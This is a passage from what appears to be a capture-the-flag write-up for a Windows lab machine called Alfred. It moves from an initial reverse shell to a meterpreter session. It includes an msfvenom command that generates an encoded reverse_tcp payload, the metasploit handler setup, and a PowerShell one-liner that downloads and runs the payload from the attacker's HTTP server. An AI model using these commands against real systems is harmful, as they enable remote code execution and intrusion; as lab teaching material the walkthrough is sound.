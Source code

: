 <img src="{{'/assets/img/images/05.Alfred/13.png' | prepend: site.baseurl }}" height="400">

And we get a reverse shell!

<img src="{{'/assets/img/images/05.Alfred/14.png' | prepend: site.baseurl }}" height="500">

<img src="{{'/assets/img/images/05.Alfred/15.png' | prepend: site.baseurl }}">

Now we will elevate our shell to a meterpreter reverse shell.

We will generate a payload that we can run on the target machine and get a reverse shell in meterpreter.

```shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.29.149 LPORT=4444 -f exe -o shell.exe
```
<img src="{{'/assets/img/images/05.Alfred/16.png' | prepend: site.baseurl }}">

Launch metasploit. Use multi/handler with the meterpreter payload set. 

```shell
msfconsole -q
```
```shell
use multi/handler
```
```shell
set payload windows/meterpreter/reverse_tcp
```
```shell
set lhost tun0
```
```shell
set lport 4444
```
```shell
run
```
Again start the python http server and download the generated payload to the target machine and run it.

```shell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.29.149:8000/shell.exe','shell.exe')"
```
```shell
Start-Process "shell.exe"
```
<img src="{{'/assets/img/images/05.Alfred/17.png' | prepend: site.baseurl }}">

Go back to metasploit and we get a meterpreter session opened.

<img src="{{'/assets/img/images/05.Alfred/18.png' | prepend: site.baseurl }}">

# Privilege Escalation
